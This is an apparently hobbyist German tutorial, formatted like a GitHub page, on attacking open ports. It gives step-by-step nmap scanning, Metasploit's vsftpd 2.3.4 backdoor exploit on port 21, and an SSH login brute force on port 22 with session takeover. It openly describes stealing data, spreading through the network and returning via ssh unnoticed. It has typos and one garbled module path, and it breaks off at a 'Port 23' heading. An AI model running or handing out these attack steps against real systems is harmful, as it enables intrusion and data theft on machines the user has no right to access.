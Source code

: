 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt um zu sehen welche Ports offen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134978753-2b5510e8-7742-43e4-bd08-337c6fb5103f.png" alt="PStatus Serie" width="700" height="250">

  
 <h2>Port 21:</h2>

``service postgresql start`` <br>
``service postgresql status``
  
Danach wird ein Passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": ``msfconsole``
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
 ``search vsftpd 2.3.4``
 So sieht es aus wenn ein Exploit existiert:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

``loit/unix/ftp/vsftpd_234_backdoor`` <br>
``use exploit loit/unix/ftp/vsftpd_234_backdoor``
  
``show options``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="700" height="150">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
``set RHOST <IP-Adresse des Ziels>``
  
 Danach kontrolieren mit: ``show options``
  
 Danach kann an einfah den Comand ``exploit`` absetzen:
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun im System ist kann man mit Befehlen wie ``WHOAMI`` oder ``$HOME`` sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif auf andere Geräte im Netzwerk erweitern. 

<h2>Port 22:</h2>

Als erstes verbindet man sich it der Metasploitdatenbank. Für diese Aktion brauch man root Privilegien.
``service postgresql start`` <br>
``service postgresql status``

Danach öffnet man wieder die "msf console": ``msfconsole``


``use auxiliary/scanner/ssh/ssh_login``
Als nächstes kann man sich die Optionen anzeigen lassen: ``show options``

Wichtig den "rhost" zu setzen mit der IP-Adresse die man Angreiffen möchte.
``set rhosts IP-Adresse des Ziels``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134676800-d95a590a-606b-4ac2-9cf1-c73845384637.png" alt="PStatus Serie" width="620" height="70">

``set VERBOSE true``
Dieser Coammand sagt aus bei erfolgreichem erraten der Login Credentials wird der angrif abgebrochen.
``set STOP_ON_SUCCESS true``

Hier gibt man das file an wo sie die namen der möglichen User befinden.
``set USER_FILE Desktiop/Name_des_Files``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680053-3fe24806-1f11-435f-9bb6-67fc5bf6abb6.png" alt="PStatus Serie" width="150" height="125">

Hir gibt man das file an wo sie das File mit den Passwörtern befindet.
``set PASS_FILE Desktiop/name_des_Files``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680122-384e9f39-cf69-46c4-b8a6-f924ad5e7e4f.png" alt="PStatus Serie" width="150" height="125">


Mit run startet man die Bruteforce attacke: ``run``

Das grüne Plus signalisiert das es geklappt hat und die Bruteforce Attacke erfolgteich war:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134681537-269891ce-d433-4cc4-97bd-5856a86a01a5.png" alt="completed attacke" width="670" height="250">

Mit folgendem Command kann eine Session mit den Ziel Aufgebaut werden. 
``sessions -i 1``

Mit dieser Session kann man alle möglichen Informationen über das Zielsystem herausfinden und seinen Zurgriff im Netzwerk erweitern oder Daten stehlen:

 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134683131-31681483-ce4f-45de-868f-6c3a52d6d647.png" alt="PStatus Serie" width="500" height="110">

Falls dein Eindringen unbemerkt bleibt und das Passwort oder der Username nicht geändert wird, kannst du dich einfach per ssh mit dem Zielsystem verbinden.
``ssh username@IP-Adresse_des_Ziels``


 <h2>Port 23:</h2>
 
 
